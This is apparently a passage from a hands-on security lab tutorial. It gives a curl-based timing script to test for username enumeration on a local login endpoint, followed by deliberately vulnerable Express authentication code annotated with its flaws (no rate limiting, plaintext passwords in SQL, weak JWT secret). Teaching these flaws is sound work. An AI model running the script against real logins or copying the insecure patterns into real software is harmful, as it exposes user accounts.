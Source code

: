 #### Step 7: Timing Attack on Login

```bash
# Measure response times to determine if username exists
time1=$(date +%s%N)
curl -s -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"wrong"}' > /dev/null
time2=$(date +%s%N)
echo "Time for existing user: $((($time2 - $time1) / 1000000)) ms"

time1=$(date +%s%N)
curl -s -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"nonexistent","password":"wrong"}' > /dev/null
time2=$(date +%s%N)
echo "Time for non-existent user: $((($time2 - $time1) / 1000000)) ms"
```

If times differ significantly, username enumeration is possible!

### 💡 What Makes This Vulnerable?

**Vulnerable Code:**
```javascript
// backend/server.js - Multiple authentication issues

// 1. No rate limiting
app.post('/api/login', async (req, res) => {
  const { username, password } = req.body;
  
  // 2. No account lockout after failed attempts
  // 3. Direct database query - timing attack possible
  const [rows] = await db.execute(
    'SELECT * FROM users WHERE username = ? AND password = ?',
    [username, password]
  );
  
  if (rows.length === 0) {
    // 4. Generic error - good, but no logging
    return res.status(401).json({ 
      success: false, 
      message: 'Invalid credentials' 
    });
  }
  
  const user = rows[0];
  
  // 5. Weak JWT secret (if exposed)
  const token = jwt.sign(
    { userId: user.id, username: user.username, role: user.role },
    process.env.JWT_SECRET, // Predictable if exposed
    { expiresIn: '24h' } // Or too long
  );
  
  res.json({ success: true, token, user });
});

// 6. No password requirements
app.post('/api/register', async (req, res) => {
  const { username, password, email } = req.body;
  
  // Accepts any password length/complexity
  await db.execute(
    'INSERT INTO users (username, password, email, role) VALUES (?, ?, ?, ?)',
```